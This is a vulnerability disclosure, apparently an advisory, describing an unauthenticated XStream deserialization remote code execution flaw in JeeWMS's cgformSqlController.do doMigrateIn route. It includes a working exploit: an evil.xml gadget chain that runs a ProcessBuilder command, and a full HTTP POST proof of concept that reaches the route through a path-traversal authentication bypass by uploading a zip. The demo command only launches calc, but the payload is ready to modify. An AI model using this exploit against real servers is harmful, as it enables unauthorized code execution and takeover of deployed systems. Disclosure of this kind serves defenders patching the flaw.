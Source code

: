 **Vulnerability Description**: The `cgformSqlController.do` route in `JeeWMS` exhibits an `XStream` deserialization vulnerability, enabling remote execution of arbitrary code. When combined with unauthorized front-end access, it can achieve the effect of executing arbitrary code on the front-end.

**Vulnerability class**：`org/jeecgframework/web/cgform/controller/build/CgformSqlController.java`

**Method where the vulnerability lies**：`org.jeecgframework.web.cgform.controller.build.CgformSqlController#**doMigrateIn`



In the method, the uploaded `zip` archive is first decompressed, and the extracted `XML` file is directly deserialized using `XStream` without undergoing any security verification

![image-20250724115152772](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250724115152772.png?imageSlim)

The default dependency version of `XStream` is `1.4.4`

![image-20250724115614596](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250724115614596.png?imageSlim)

`evil.xml`

```XML
<tree-map>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>calc</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```

Vulnerability `POC`

```http
POST /jeewms/wmsApiController.do/../cgformSqlController.do?doMigrateIn HTTP/1.1
Host: 192.168.21.128:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: [xxx]

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="evil.zip"
Content-Type: application/zip

{{file(C:\\Users\\worker\\Desktop\\java\\evil.zip)}}

------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

![img](https://img-1325537595.cos.ap-beijing.myqcloud.com/%E4%BC%81%E4%B8%9A%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_1753327815533.png?imageSlim)